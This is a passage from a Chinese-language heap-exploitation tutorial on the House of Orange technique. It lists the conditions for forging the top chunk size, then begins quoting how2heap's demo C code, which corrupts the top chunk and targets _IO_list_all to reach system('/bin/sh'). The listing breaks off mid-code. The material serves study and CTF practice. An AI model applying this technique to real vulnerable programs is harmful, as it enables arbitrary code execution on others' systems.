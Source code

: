 堆溢出伪造时注意：

*   保证原本old top chunk的size大于MINSIZE
*   保证原本old top chunk的prev\_inuse位是1
*   原本old top chunk的地址加上其size之后的地址要与页对齐 也就是address&0xfff=0x000。
*   old chunk的size要小于申请的堆块大小加上MINSIZE

注意：如果申请的堆块大小大于0x20000，那么申请到的将会是mmap映射出来的内存而不会拓展topchunk了

## 组合拳

虽然House of orange似乎只能构造一个unsortedbin chunk，但是他和unsortedbin以及FSOP的组合拳却能造成无比强大的攻击效果

**样例：how2heap中的House of orange**

### 源码

```plain
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int winner ( char *ptr);

int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;

    fprintf(stderr, "The attack vector of this technique was removed by changing the behavior of malloc_printerr, "
        "which is no longer calling _IO_flush_all_lockp, in 91e7cf982d0104f0e71770f5ae8e3faf352dea9f (2.26).\n");

    fprintf(stderr, "Since glibc 2.24 _IO_FILE vtable are checked against a whitelist breaking this exploit,"
        "https://sourceware.org/git/?p=glibc.git;a=commit;h=db3476aff19b75c4fdefbe65fcd5f0a90588ba51\n");

    /*
      Firstly, lets allocate a chunk on the heap.
    */

    p1 = malloc(0x400-16);
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;

    p2 = malloc(0x1000);

    io_list_all = top[2] + 0x9a8;

    top[3] = io_list_all - 0x10;

    /*
      At the end, the system function will be invoked with the pointer to this file pointer.
      If we fill the first 8 bytes with /bin/sh, it is equivalent to system(/bin/sh)
    */

    memcpy( ( char *) top, "/bin/sh\x00", 8);

    top[1] = 0x61;
    FILE *fp = (FILE *) top;


    /*
```